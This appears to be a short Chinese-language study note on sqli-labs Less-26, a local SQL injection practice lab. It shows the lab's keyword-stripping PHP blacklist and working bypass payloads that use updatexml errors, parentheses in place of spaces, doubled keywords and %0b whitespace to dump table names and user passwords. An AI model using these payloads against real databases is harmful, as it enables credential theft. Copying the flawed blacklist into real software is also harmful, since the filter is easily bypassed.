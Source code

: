 ```
function blacklist($id)
{
      $id = preg_replace('/or/i',"", $id);      //strip out OR (non case sensitive)
      $id = preg_replace('/and/i',"", $id);      //Strip out AND (non case sensitive)
      $id = preg_replace('/[\/\*]/',"", $id);      //strip out /*
      $id = preg_replace('/[--]/',"", $id);      //Strip out --
      $id = preg_replace('/[#]/',"", $id);      //Strip out #
      $id = preg_replace('/[\s]/',"", $id);      //Strip out spaces
      $id = preg_replace('/[\/\\\\]/',"", $id);      //Strip out slashes
      return $id;
}
```

以上，都被过滤了。



看网上帖子说，updatexml不需要考虑空格

这里还用了括号绕过空格，将 能产生结果的语句 括起来

```
?id=-1' || updatexml(1,concat(0x7e,(select (group_concat(table_name)) from (infoorrmation_schema.tables) where (table_schema=database())    ),0x7e),1)|| '1'='1
```

.



查表，列



爆库

 这里注意，password里也有or,要用双写过滤

```
http://127.0.0.1:81/Less-26/?id=-1%27%20||%20updatexml(1,concat(0x7e,(select%20(group_concat(concat_ws(%27-%27,username,passwoorrd)))%20from%20(security.users)%20%20%20%20),0x7e),1)||%20%271%27=%271
```

---

?id='%0bunion%0bselect%0b1,database(),3%26%26'7'='7

这个联合注入也可，但不明白为什么id=1‘非0就不行
